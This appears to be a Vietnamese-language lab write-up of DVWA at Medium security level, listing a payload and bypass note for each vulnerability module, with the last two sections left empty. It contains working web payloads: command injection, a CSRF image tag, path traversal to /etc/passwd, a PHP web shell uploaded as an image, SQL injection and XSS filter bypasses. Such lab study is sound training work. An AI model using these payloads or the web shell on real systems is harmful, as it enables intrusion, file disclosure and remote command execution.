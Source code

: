 # DVWA - Security Level: Medium  

## 1. Brute Force
Su dung **BurpSuite** bat goi tin khi thuc hien chuc nang **Login**:  
  
![Brute Force_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Brute%20Force_1.png)  
  
Su dung chuc nang **Intruder**, de tan cong brute force tim kiem mat khau cua tai khoan **admin**  
**Result:**  
O muc do **Medium**, moi lan dang nhap sai se phai doi 2s, viec nay khong chong lai duoc tan cong brute froce nhung co the lam tang thoi gian thuc hien.  
Tai khoan: **admin**  
Mat khau: **password**  
## 2. Command Injection
**Payload**  
```
|| whoami
```
**Result:**  
Chuc nang **Ping a device** da thuc hien loc, loai bo cac ky tu **";" va "&&"**. Nhung bo sot doi voi ky tu **"||"**.  
  
![Command Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Command%20Injection_1.png)
  
## 3. CSRF
**Payload**  
```
<img src="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=abc123&password_conf=abc123&Change=Change">/img>
```
**Result:**  
Su dung lo hong XSS (Reflected):
  
![CSRF_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/CSRF_1.png)
      
## 4. File Inclusion
**Payload**  
```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//....//etc/passwd
```
**Result:**  
He thong da thuc hien kiem soat input bang cach loai bo chuoi ky tu **"../"** trong du lieu input, nhung chua loai bo hoan toan:  
  
![File Inclusion_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Inclusion_1.png)  
  
## 5. File Upload
**Payload**  
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
**Result:**  
He thong da chan, chi cho phep upload file JPEG hoac PNG images:  
  
![File Upload_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_1.png)  
  
Su dung Burp Suite bat goi tin khi thuc hien upload file shell.png:  
  
![File Upload_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_2.png)  
  
Thay doi ten va noi dung file shell.png:  
  
![File Upload_3](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_3.png)  
  
Upload thanh cong:  
  
![File Upload_4](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_4.png)  
  
## 6. Insecure CAPTCHA
**Payload**:  
  
![Insecure CAPTCHA_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Insecure%20CAPTCHA_1.png)  
  
**Result:**  
Tuong tu nhu voi muc do Low, chi can gui request **step 2** voi **passed_captcha=true**.  
## 7. SQL Injection
**Payload**  
```
1 UNION SELECT user, password FROM users-- -
```
**Result:**  
Su dung **Burp Suite** chan goi tin khi chon **Submit**:  
  
![SQL Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection_1.png)  
  
Thay doi gia tri **ID**:  
  
![SQL Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection_2.png)  
  
## 8. SQL Injection (Blind)
**Payload**  
```
1 AND SLEEP(1)-- -
```
**Result:**  
  
![SQL Injection (Blind)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection%20(Blind)_1.png)  
  
## 9. Weak Session IDs  
**Result:**  
Khi **Generate**, gia tri **dvwaSession** duoc tao ra moi lan khac nhau:  
  
![Weak Session IDs_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Weak%20Session%20IDs_1.png)  
  
Gia tri **dvwaSession** tuong ung voi gia tri **time stamp** khi duoc tao:  
  
![Weak Session IDs_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Weak%20Session%20IDs_2.png)  
  
## 10. XSS (DOM)
**Payload**  
```
>/option></select><img src='x' onerror='alert(1)'>
```
**Result:**  
Tag **<script** bi loai bo, su dung tag **img** kem theo dong cac tag **option, select**:   
  
![XSS (DOM)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XXS%20(DOM)_1.png)  
  
## 11. XSS (Reflected)
**Payload**  
```
<scripT> alert(1) </Script>
```
**Result:**  
  
![XSS (Reflected)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XXS%20(Reflected)_1.png)  
  
## 12. XSS (Stored)
**Payload**  
```
<img src='x' onerror='alert(1)'>
```
**Result:**  
Thay doi thong so **maxlength** cua o input **name**:  
  
![XSS (Stored)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XXS%20(Stored)_1.png)  
  
Chen **payload** vao o input **name**:  
![XSS (Stored)\_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XXS%20(Stored)_2.png)  
  
## 13. CSP Bypass
**Payload**  
```

```
**Result:**  

  
## 14. JavaScript
**Payload**  
```

```
**Result:**  

  
